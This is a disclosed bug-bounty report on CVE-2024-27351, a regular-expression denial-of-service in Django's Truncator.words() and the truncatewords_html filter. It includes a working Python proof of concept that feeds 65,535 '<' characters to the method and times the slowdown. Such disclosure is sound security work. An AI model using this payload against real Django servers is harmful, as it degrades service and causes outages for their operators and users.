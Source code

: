 # CVE-2024-27351: Potential regular expression denial-of-service in django.utils.text.Truncator.words()

## Report Details
- **Report ID**: 2402193
- **URL**: https://hackerone.com/reports/2402193
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2024-03-05T10:53:54.184Z
- **Disclosed**: 2024-04-28T16:52:51.624Z

## Reporter
- **Username**: scyoon
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
# TL;DR

**CVE-2024-27351**: Potential regular expression denial-of-service in `django.utils.text.Truncator.words()`

# Details:

`django.utils.text.Truncator.words()` method (with `html=True`) and `truncatewords_html` template filter were subject to a potential regular expression denial-of-service attack using a suitably crafted string (follow up to CVE-2019-14232 and CVE-2023-43665).

- The `Truncator` class truncates text based on word count.
- When the `html` flag is set, the internal `_truncate_html()` method is used.
- This method relies on regular expressions stored in variables (`re_chars` and `re_words`) to perform the truncation.
- These regular expressions are vulnerable to ReDoS attacks, which can cause significant performance degradation and denial-of-service.

**PoC:**

```python
#!/usr/bin/env python3
from django.utils.text import Truncator
import time


MAX_LENGTH = 65535

payload = '<' * MAX_LENGTH
print('[INFO] %d bytes of payload' % len(payload))

start_time = time.time()
Truncator(payload).words(3, truncate='...', html=True) # BOOM!
end_time = time.time()

print('[INFO] Truncator().words() took %lf seconds' % (end_time - start_time))
```

The impact of this vulnerability may vary depending on the computing environment. In my tests using an AMD Ryzen 7 3700X with 32GB RAM, I observed a notable delay of approximately 40 seconds.

## Impact

An attacker could exploit this vulnerability to:

- Consume excessive server resources, causing performance degradation and potential service outages.
- Delay application response times significantly.

## Attachments
No attachments
